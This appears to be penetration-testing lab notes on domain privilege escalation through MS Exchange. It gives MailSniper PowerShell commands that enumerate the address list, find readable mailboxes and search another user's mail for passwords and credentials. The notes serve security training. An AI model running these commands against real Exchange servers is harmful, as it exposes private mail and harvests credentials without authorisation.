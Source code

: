 # Domain Privilege Escalation [ MS Exchange ]
## Methodology/Steps

> 1. Load in [MailSniper](https://github.com/dafthack/MailSniper) using powershell
> 2. Enumerate and pull all the emails
> 3. Save all the emails in a file called emails.txt
> 4. Now check if you have access to any other emailboxes
> 5. Check for data inside the email address where the body contains data like password or creds

---

## MailSniper

### 1. Enumerate all mailboxes 
```powershell
Get-GlobalAddressList -ExchHostname us-exchange -verbose -UserName us\studentuser1 -password <password> -
```

### 2. Enumerate all mailboxes we have access to (means current user)
```powershell
Invoke-OpenInboxFinder -EmailList C:\AD\Tools\emails.txt -ExchHostname us-exchange -verbose 
```

### 3. Once we have identified mailboxes where we can read emails, use the following to read emails. The below command looks for terms like pass, creds, credentials from top 100 emails of :
```powershell
Invoke-SelfSearch -Mailbox pwnadmin@techcorp.local -ExchHostname us-exchange -OutputCsv .\mail.csv
```

> Alternatively, using exchange manager (Organization Management) or exchange user (Exchange Trusted Subsystem) privileges also allows us to read the emails!

